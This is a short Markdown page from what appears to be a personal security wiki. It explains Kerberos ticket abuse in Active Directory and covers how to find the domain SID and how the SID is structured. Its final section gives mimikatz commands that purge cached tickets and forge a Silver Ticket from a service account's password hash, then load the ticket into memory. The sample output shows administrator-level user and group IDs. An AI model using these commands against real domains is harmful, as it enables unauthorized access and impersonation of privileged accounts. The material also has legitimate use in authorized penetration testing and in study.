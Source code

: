 ```yaml
---
title: Pass-The-Ticket
date: M02-18-2023
author: i4
---
```

- A TGT can only be used on the machine it was requested from (See [Kerberos](/wiki/Security/Windows/AD/Authentication/Kerberos.md))
- A TGS can be exported and used on others.
- Using a SPN account hash, a TGS can be forged with specific permissions (Silver Ticket)

## Getting the domain Security Identified

- Can be acquired by running `whoami /user` (remove the last `-xxxx` part)

A SID is a unique name for any object in AD and has the following structure: `S-R-X-Y`
**Example**: `S-1-5-21-2536614405-3629634762-1218571035-1116

| Field | Description |
|--|--|
|S| Indicates that the string is a SID|
|R| Indicates the revision level|
|X|Indicates the identifier authority value|
|Y|Represents a series of subauthority values, where _n_ is the number of values|

There are some special static SID that get used: [Well-Known SIDs](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers#well-known-sids)

## Crafting a Silver Ticket
- `/target` requires the SPN without the service 
	- Example `webserver.heimat.erde` (Remove the `HTTP/` part)
- `/service` requires the service part in the SPN
	- Example `HTTP`
 - `/ptt` load it into memory
 - `/rc4 | /sha1 | /sha256` hash (credential) of the SPN holder account
```
mimikatz # kerberos::purge # Clean cached tickets
mimikatz # kerberos::golden /user:[user] /domain:[domain] /sid:S-1-5-21-2536614405-3629634762-1218571035 /target:[SPN] /service:[service] /rc4:[credential] /ptt
...
User Id : 500
Groups Id: \*513 512 520 518 519
```
